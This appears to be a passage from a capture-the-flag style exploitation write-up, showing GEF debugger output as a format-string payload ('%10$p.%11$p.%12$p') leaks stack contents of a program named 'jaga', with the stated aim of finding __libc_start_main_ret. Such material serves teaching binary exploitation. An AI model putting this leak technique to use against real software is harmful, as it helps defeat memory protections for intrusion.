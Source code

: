 We can then run the `LOAD` and hit our breakpoint right before the format leak is printed.

```
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x7ffff7e36d28 <printf+152>     mov    DWORD PTR [rsp], 0x8
   0x7ffff7e36d2f <printf+159>     mov    rdi, QWORD PTR [rax]
   0x7ffff7e36d32 <printf+162>     mov    DWORD PTR [rsp+0x4], 0x30
 → 0x7ffff7e36d3a <printf+170>     call   0x7ffff7e4b860
   ↳  0x7ffff7e4b860                  endbr64
      0x7ffff7e4b864                  push   rbp
      0x7ffff7e4b865                  mov    rbp, rsp
      0x7ffff7e4b868                  push   r15
      0x7ffff7e4b86a                  push   r14
      0x7ffff7e4b86c                  mov    r14, rdx
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
0x7ffff7e4b860 (
   $rdi = 0x00007ffff7fc26a0 → 0x00000000fbad2887,
   $rsi = 0x0000555555558168 → "%10$p.%11$p.%12$p",
   $rdx = 0x00007fffffffbe70 → 0x0000003000000008,
   $rcx = 0x0000000000000000
)
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "jaga", stopped 0x7ffff7e36d3a in printf (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7ffff7e36d3a → printf()
[#1] 0x555555555583 → mov edi, 0x23
[#2] 0x7ffff7df9083 → __libc_start_main()
[#3] 0x5555555551ae → hlt
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Now, before the format leak is printed, we will print out the contents of our stack until we can see our objective, aka `__libc_start_main_ret`. Afterwards, we can let the program resume to see what the format leak is.

```
gef➤  telescope
0x00007fffffffbe70│+0x0000: 0x0000003000000008   ← $rdx, $rsp
0x00007fffffffbe78│+0x0008: 0x00007fffffffbf50  →  0x0000034000000340
0x00007fffffffbe80│+0x0010: 0x00007fffffffbe90  →  0x0000000000000000
0x00007fffffffbe88│+0x0018: 0xb3084ef389aae800
0x00007fffffffbe90│+0x0020: 0x0000000000000000
0x00007fffffffbe98│+0x0028: 0x00007fffffff98b0  →  "10\n0.(nil).(nil)"
0x00007fffffffbea0│+0x0030: 0x0000555555558060  →  "%10$p.%11$p.%12$p"
0x00007fffffffbea8│+0x0038: 0x0000000000000000
0x00007fffffffbeb0│+0x0040: 0x0000000000000003
0x00007fffffffbeb8│+0x0048: 0x0000000000000003
gef➤
0x00007fffffffbec0│+0x0050: 0x0000000000000d68 ("h\r"?)
0x00007fffffffbec8│+0x0058: 0x0000000000000023 ("#"?)
0x00007fffffffbed0│+0x0060: 0x00007ffff7fc26a0  →  0x00000000fbad2887
0x00007fffffffbed8│+0x0068: 0x0000555555558020  →  0x00007ffff7fc26a0  →  0x00000000fbad2887
0x00007fffffffbee0│+0x0070: 0x00007ffff7fc85c0  →  0x00007ffff7fc85c0  →  [loop detected]
0x00007fffffffbee8│+0x0078: 0x0000000000000000
0x00007fffffffbef0│+0x0080: 0x0000000000000000
0x00007fffffffbef8│+0x0088: 0x00007ffff7e65e93  →  <_IO_file_overflow+275> cmp eax, 0xffffffff
0x00007fffffffbf00│+0x0090: 0x00007ffff7fc26a0  →  0x00000000fbad2887
0x00007fffffffbf08│+0x0098: 0x0000000000000023 ("#"?)
gef➤
0x00007fffffffbf10│+0x00a0: 0x0000555555558020  →  0x00007ffff7fc26a0  →  0x00000000fbad2887
```